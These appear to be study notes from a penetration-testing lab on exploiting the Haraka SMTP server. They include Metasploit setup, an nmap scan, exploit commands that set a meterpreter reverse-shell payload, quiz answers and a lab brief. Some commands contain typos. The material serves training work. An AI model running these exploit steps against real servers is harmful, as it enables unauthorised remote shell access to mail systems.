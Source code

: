 - Simple Mail Transfer Protocol
- Uses Port 25, 456 or 587
- Haraka Node js SMTP server


Setup msfconsole
```
service postgresql start 
msfconsole
workspace -a haraka
setg RHOST <target_ip>
setg RHOSTS <target_ip>
setg LHOST <local_ip>
```

Scan and Enumerate target ip 
```
db_nmap -sS -sV -O <target_ip>
```

Setup haraka exploit
```
search type:exploit haraka
use exmploit/linux/smtp/haraka
options
set SRVPORT 9898
set email_to root@attackdefense.test
info
set payload linux/x64/metepreter_reverse_http
options
exploit
```
## Quiz 

Which one of the following MSFconsole search queries can be used to search for Haraka SMTP exploit modules?

	search type:exploit name:haraka
	
Haraka SMTP versions prior to V2.8.9 are vulnerable to command injection.

	TRUE
## Lab

The target server as described below is running a vulnerable SMTP service. Your task is to fingerprint the application using command line tools available on the Kali terminal and then exploit the application using the appropriate Metasploit module. Get a shell on the target!

Instructions: 

- This lab is dedicated to you! No other users are on this network :)
- Once you start the lab, you will have access to a root terminal of a Kali instance
- Your Kali has an interface with IP address 192.X.Y.Z. Run "ip addr" to know the values of X and Y.
- The target server should be located at the IP address 192.X.Y.3.
- Do not attack the gateway located at IP address 192.X.Y.1
- postgresql is not running by default so Metasploit may give you an error about this when starting

```
192.41.20.2
192.41.20.3
```

